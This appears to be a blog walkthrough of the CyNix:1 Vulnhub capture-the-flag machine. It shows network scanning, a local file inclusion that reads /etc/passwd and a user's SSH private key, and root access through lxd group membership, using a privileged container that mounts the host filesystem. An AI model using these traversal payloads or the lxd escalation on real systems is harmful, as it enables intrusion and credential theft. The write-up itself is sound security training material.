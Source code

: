 ```yaml
---
title: 'CyNix:1 Vulnhub Walkthrough'
date: 2020-01-19T17:47:00+01:00
draft: false
---
```


Today we are sharing another CTF Walkthrough named Cynix Post by Vulnerhub and credit goes to “Sumit Verma” and the level difficulty is set Intermediate-Hard. You have to hunt two flags, and this is a boot to root challenge. Download it from **[here](https://www.vulnhub.com/entry/cynix-1,394/)**.

### **Table of Content**

**Network scanning**

*   Netdiscover
*   Nmap

**Enumeration**

*   Abusing HTTP
*   Dirbuster

**Exploiting LFI**

*   Burp Suite

**Privilege Escalation**

*   Lxd

**Walkthrough**

**Network Scanning**

As you know, this is the initial phase where we choose netdiscover for network scan for identifying host IP and this we have 192.168.1.105 as our host IP.

![](https://i0.wp.com/1.bp.blogspot.com/-o6bSaV5KbYQ/XiR-v44PIQI/AAAAAAAAiOQ/JbIXdDtHrtc41Y_Iob3mHyeKtU8T2aYtQCLcBGAsYHQ/s1600/1.png?w=687&ssl=1)

In our next step, we love to use nmap for network ports enumeration, thus we run following command and found port 80 is open for HTTP and 6688 is open for SSH and also the host operating system is Linux based OS.

```
nmap -p- -A 192.168.1.105
```

![](https://i0.wp.com/1.bp.blogspot.com/-Udl01I4MMkI/XiR-zB_cPxI/AAAAAAAAiO0/9KeMMoUgSwcJOjnp37JWCDVpRR0FF0IgQCLcBGAsYHQ/s1600/2.png?w=687&ssl=1)

### **Enumeration**

After network scanning, the enumeration is next phase, because it helps a pentester for to dig out suspicious information or loopholes in the installed application, therefore we navigate to a web browser and explored the host IP as shown but unfortunately, we found nothing except apache default page.

![](https://i0.wp.com/1.bp.blogspot.com/-0GHyDYuEeCU/XiR-zsjSFHI/AAAAAAAAiO4/9zfqdSkrDhsHAWxgWg7IVq8xPWuiDJvYQCLcBGAsYHQ/s1600/3.png?w=687&ssl=1)

We continue this with the directory brute force attack and the dirbuster used for directory listing. As you can see, we’ve found a directory named /lavalamp to learn more about dirbuster, read the article from **[here](https://www.hackingarticles.in/comprehensive-guide-on-dirbuster-tool/)**.

![](https://i0.wp.com/1.bp.blogspot.com/-DtNinBuwrfA/XiR-z-0UUMI/AAAAAAAAiO8/5o-O2kYMDQkHOs0awGQlZWAG0mdFVM12ACLcBGAsYHQ/s1600/4.png?w=687&ssl=1)

We’re browsing the /lavalamp in the web browser and we’re welcomed by the web page shown in the image. Then we dig more and more, including its source code, but found no hint for the next step.

![](https://i0.wp.com/1.bp.blogspot.com/-Mws8rt-UAhI/XiR-0aNRmOI/AAAAAAAAiPA/t4cNtRkgvoERD6-CWHVb5j3VqdD6DwlHQCLcBGAsYHQ/s1600/5.png?w=687&ssl=1)

As a result, we fill out the contact form as shown in the image below and intercept the http request of the browser in the browser.

![](https://i1.wp.com/1.bp.blogspot.com/-5tNFyyjynWA/XiR-0qRJoXI/AAAAAAAAiPE/oi-Atul6Tcou_aut3sM-vFjnRZIY_t2fQCLcBGAsYHQ/s1600/6.png?w=687&ssl=1)

The intercepted request shows that here the HTTP Post method is used to submit the request at /canyobypassme.php page.

![](https://i2.wp.com/1.bp.blogspot.com/-L2eC9ygfnM0/XiR-01GzmHI/AAAAAAAAiPI/cTe0xqgK5gU4Jdzodkhqn0QoTMDR3WGkwCLcBGAsYHQ/s1600/7.png?w=687&ssl=1)

Thus, we navigate to /lavalamp/canyoubypassme.php as found above, an image on the web page shown below.

![](https://i0.wp.com/1.bp.blogspot.com/-fOUZ7dqgUIQ/XiR-2TRIP2I/AAAAAAAAiPM/cvK2r0Oh-dUbgr1kXVBpupXi869esFUCwCLcBGAsYHQ/s1600/8.png?w=687&ssl=1)

As the web page displays the image only and it was troubling us, thus, we check its source code and notice a hidden form with **opacity 0:0** inside the web page.

![](https://i2.wp.com/1.bp.blogspot.com/-zhBCTRkTOzI/XiR-2YLFBTI/AAAAAAAAiPQ/w8BjBExDG0AjqzFaJIfZhAi_6jsHTiCowCLcBGAsYHQ/s1600/9.png?w=687&ssl=1)

With the help inspect element we changed the **opacity 0:0 to 0:1** and got the form visible on the web page.

![](https://i1.wp.com/1.bp.blogspot.com/-2zETDjFpB0E/XiR-wow8AxI/AAAAAAAAiOY/lh11VsbOyq4FhGJ3mvhiT9WYoUMByTViQCLcBGAsYHQ/s1600/10.png?w=687&ssl=1)

Now it was time to intercept the form’s http request by entering a value as a specific number. So, we’ve got the intercepted request in the burpsuite where we’ve seen the parameter “file=1” and maybe there’s a possibility for LFI, so we’ve sent the request to the repeater.

![](https://i0.wp.com/1.bp.blogspot.com/-bwiB8telEZ4/XiR-wJRt3JI/AAAAAAAAiOU/xclv2pSrZB01RSQG5Cszac2yJcxOW-BogCLcBGAsYHQ/s1600/11.png?w=687&ssl=1)

For validating LFI we looked for /etc/passwd file by injecting “**../../../etc/passwd”** in the parameter “**file=1**” as checked its response.

Luckily, we found the application is vulnerable to LFI and from its result, we notice record entry for username “ford” and “lxd”

![](https://i1.wp.com/1.bp.blogspot.com/-A5BGYsPTGtY/XiR-xBF9i8I/AAAAAAAAiOc/lJUmTp6Q8xA7XyH8K-syRE1vKHKiak6TgCLcBGAsYHQ/s1600/12.png?w=687&ssl=1)

### **Exploiting LFI**

Since ssh is installed on the host machine, so we also check for ssh rsa key by injecting “**../../../home/ford/.ssh/id\_rsa**” in parameter ‘’**file=8**” as result we found **id\_rsa** key for ssh.

![](https://i2.wp.com/1.bp.blogspot.com/-QuiwAZd9ago/XiR-xPB4lbI/AAAAAAAAiOg/mz880kAB0XcmKu-BQhSv5cR3wbdXB4UbQCLcBGAsYHQ/s1600/15.png?w=687&ssl=1)

We copied the id\_rsa key in a text document and named it “key” and also grant permission 600, and finally get logged in and spawn the ssh shell of the machine.

```
chmod 600 key  
ssh -i key ford@192.168.1.105
```

we found our fist flag user.txt file inside ford’s /home directory and for privilege escalation, we check user\_id where we saw ford is member of lxd group thus we can be escalated go with lxd privilege escalation which we had explained in our previous **[article](https://www.hackingarticles.in/lxd-privilege-escalation/)**.

![](https://i2.wp.com/1.bp.blogspot.com/-NXCZhtO2qOw/XiR-xoGqT4I/AAAAAAAAiOk/xCjWwGR3l107avx4RQQ_izYt7hQ3IMXbwCLcBGAsYHQ/s1600/16.png?w=687&ssl=1)

### Privilege Escalation

In order to take escalate the root privilege of the host machine you have to create an image for lxd thus you need to perform the following the action:

1.  **Steps to be performed on the attacker machine**:

*   Download build-alpine in your local machine through the git repository.
*   Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.
*   Transfer the tar file to the host machine

2.  **Steps to be performed on the host machine:**

*   Download the alpine image
*   Import image for lxd
*   Initialize the image inside a new container.
*   Mount the container inside the /root directory

So, we downloaded the build alpine using the GitHub repose.

```
git clone  https://github.com/saghul/lxd-alpine-builder.git  
cd lxd-alpine-builder  
./build-alpine
```

![](https://i0.wp.com/1.bp.blogspot.com/--mrWopO99uA/XiR-yPoOpWI/AAAAAAAAiOo/qDyu7Br1guAUbABtPbb-pg3f6vxI94O-QCLcBGAsYHQ/s1600/17.png?w=687&ssl=1)

On running the above command, a tar.gz file is created in the working directory that we have transferred to the host machine.

```
python -m SimpleHTTPServer
```

![](https://i0.wp.com/1.bp.blogspot.com/-GTVLrW87S20/XiR-yM64xmI/AAAAAAAAiOs/DPrnAf_IdwAx3mvHAvf76bcPcoLOnACsACLcBGAsYHQ/s1600/18.png?w=687&ssl=1)

On another hand, we will download the alpine-image inside /tmp directory on the host machine.

```
cd /tmp  
wget http://192.168.1.107:8000/apline-v3.10-x86\_64-20191008\_1227.tar.gz
```

After the image is built it can be added as an image to LXD as follows:

```
lxc image import ./apline-v3.10-x86\_64-20191008\_1227.tar.gz --alias myimage
```

Use the list command to check the list of images

```
lxc image list  
lxc init myimage ignite -c security.privileged=true  
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true  
lxc start ignite  
lxc exec ignite /bin/sh  
id
```

Once inside the container, navigate to /mnt/root to see all resources from the host machine.

After running the bash file. We see that we have a different shell, it is the shell of the container. This container has all the files of the host machine. So, we enumerated for the root flag and found it.

```
mnt/root/root  
ls  
flag.txt  
cat flag.txt
```

![](https://i1.wp.com/1.bp.blogspot.com/-2_JVEvFlmVA/XiR-y8Pk1OI/AAAAAAAAiOw/5LcR90XWqWIERKiCJtkU3n-Y7WY-je9qwCLcBGAsYHQ/s1600/19.png?w=687&ssl=1)

**Author**: Pinky Deka is trained in Certified Ethical hacking and Bug Bounty Hunter. Connect with her [**here**](https://www.linkedin.com/in/pinky-deka/)

The post [CyNix:1 Vulnhub Walkthrough](https://www.hackingarticles.in/cynix1-vulnhub-walkthrough/) appeared first on [Hacking Articles](https://www.hackingarticles.in).

  
  
from Hacking Articles https://ift.tt/30ETx2n